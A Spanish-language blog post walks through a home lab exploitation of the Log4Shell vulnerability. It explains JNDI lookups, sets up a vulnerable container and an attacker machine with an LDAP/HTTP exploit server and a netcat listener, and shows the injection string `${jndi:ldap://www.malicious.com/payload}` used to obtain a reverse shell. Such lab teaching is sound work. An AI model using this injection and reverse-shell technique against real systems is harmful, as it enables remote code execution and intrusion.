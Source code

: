 ```yaml
---
layout: post
author: Raúl Riesco
title: Explotar vulnerabilidad de Log4j (CVE-2021-44228)
---
```


## Explicación teórica

En esta ocasión vamos a realizar una práctica de laboratorio sencilla donde explotaremos la en su día ya famosa vulnerabilidad `Log4shell`. Esta vulnerabilidad es del tipo RCE (Ejecución Remota de código), con una gran criticidad y fue en su momento un 0day en el popular paquete de logging `log4j`.

Algunos detalles más técnicos de la vulnerabilidad pueden leerse [aquí](https://www.lunasec.io/docs/blog/log4j-zero-day/)

A partir de esta vulnerabilidad y su correspondiente parche, se fueron desencadenado nuevas vulnerabilidades. La [siguiente](https://blog.aquasec.com/log4j-vulnerabilities-overview) imagen muestra la línea de acontecimientos:

![](../img/log4j/key-log4j-events-timeline.jpg)

## ¿Cuál es el problema que genera la vulnerabilidad?

El meollo de esta vulnerabilidad está contado bastante bien [aquí](https://www.akamai.com/es/blog/security/a-log4j-retrospective) y [aquí](https://infosecwriteups.com/log4j-zero-day-vulnerability-exploitation-detection-mitigation-9667908857b4).

A muy grandes rasgos, log4j permite registrar expresiones en los logs que contengan variables, de tal forma que al loggearse la información, log4j interpreta la expresión y sustituye las variables adecuadamente:

```
"${date:MM-dd-yyyy} Access granted" 
```

Además, log4j permite anidar expresiones de búsquedas unas dentro de otras.

### JNDI (Java Naming and Directory Interface)

Esta funcionalidad de log4j permite a una aplicación obtener datos de un servidor remoto utilizando protocolos tales como LDAP o RMI.

Todo esta teoría junta, puede usarse para explotar la vulnerabilidad de la siguiente forma:

![](../img/log4j/00.jpg)

Es decir, muy resumidas, ocurren las siguiente cosas:

1. Un atacante realiza una petición a la aplicación vulnerable y "cuela" una cadena JNDI para ser loggeada por log4j (en una cabecera HTTP por ejemplo)
    Esta cadena contiene una petición de búsqueda a un servidor LDAP malicioso.

2. Esta petición o cadena es, efectivamente, loggeada por log4j, que la interpreta y contacta con el servidor LDAP malicioso

3. El servidor LDAP malicioso responde con una clase Java maliciosa

4. El servidor víctima deserializa o descarga la clase Java malicoso y la ejecuta

## Caso práctico

Para este escenario me he basado es una explicación genial de un buen [blog](https://ciberseguridad.blog/como-explotar-la-vulnerabilidad-log4shell-en-nuestro-laboratorio/ ¡) en español y me parece importante darle su crédito.

Vamos a utilizar dos máquinas virtuales:

+ En la primera ejecutaremos una aplicación vulnerable a `log4shell`. Se tratará de [este](https://github.com/christophetd/log4shell-vulnerable-app) contenedor Docker. Utilizaré un Lubuntu que tenía a mano.

+ En la segunda ejecutaremos un [exploit](https://web.archive.org/web/20211210224333/https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) diseñado para esta vulnerabilidad, que levantará un servidor LDAP (para recibir la petición de la víctima) y otro HTTP (para servir el exploit).

    También pondremos un netcat a escuchar, ya que el exploit establecerá una shell reversa.

    Y desde este servidor será desde realizaremos la petición maliciosa a la víctima, mediante `curl`, construida adecuadamente para explotar la vulnerabilidad descrita.

    Utilizaré una Debian que también tenía a mano.

En esencia, la cosa quedaría así:

![](../img/log4j/diagrama.png)

Así pues, vayamos al lío. Ejecutamos la aplicación vulnerablen en el Lubuntu:

![](../img/log4j/1.png)

Ejecutamos el exploit en la Debian. Comprobamos como se inician el servidor LDAP (puerto 1389) y el HTTP (el 8888 le hemos indicado):

![](../img/log4j/2.png)

Y ponemos en esta misma máquina netcat a la escucha para recibir la reverse shell:

![](../img/log4j/3.png)

La petición CURL que vamos a realizar, será del tipo `${jndi:ldap://www.malicious.com/payload}`, donde `www.malicious.com` es el servidor LDAP malicioso y `payload` será la orden a ejecutar para conseguir la reverse shell, codificada en base64.

El `payload`:

![](../img/log4j/4.png)

La petición CURL completa:

![](../img/log4j/5.png)

El servidor con la aplicación vulnerable recibiendo la petición:

![](../img/log4j/6.png)

![](../img/log4j/7.png)

Nuestros servidores maliciosos en la máquina DEbian recibiendo sus respectivas peticiones LDAP y HTTP sirviendo la clase Java maliciosa:

![](../img/log4j/8.png)

Y tras este intercambio de peticiones y respuestas, obtenemos nuestra shell inversa:

![](../img/log4j/9.png)


